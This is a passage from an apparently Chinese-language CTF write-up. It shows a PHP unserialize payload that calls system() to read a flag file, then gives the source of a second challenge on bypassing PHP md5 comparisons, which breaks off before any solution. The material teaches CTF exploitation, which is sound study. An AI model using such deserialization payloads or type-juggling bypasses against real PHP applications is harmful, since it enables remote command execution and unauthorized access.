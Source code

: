 ![alt text](image-38.png)
直接读取flag
```bash
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

## [?CTF]secret of php
 >知识点：php绕过

 ```php
  <?php
highlight_file(__FILE__);
include('flag.php');
$a = $_POST['a'];
$b = $_POST['b'];

if (isset($a) && isset($b)){
    if ($a !== $b && md5($a) == md5($b)){
        echo "<br>yes<br>";
    } else {
        die("no");
    }
    $a = $_REQUEST['aa'];
    $b = $_REQUEST['bb'];
    if ($a !== $b && md5((string)$a) === md5((string)$b)){
        echo "yes yes<br>";
    } else {
        die("no no");
    }
    $a = $_REQUEST['aaa'];
    $b = $_REQUEST['bbb'];
    if ((string)$a !== (string)$b && md5((string)$a) === md5((string)$b)){
        echo "yes yes yes<br>";
        echo "Congratulations! You have passed the second level, the flag is ".$flag."<br>";
    } else {
        die("no no no");
    }
} else {
    echo "a or b is not set<br>";
 ```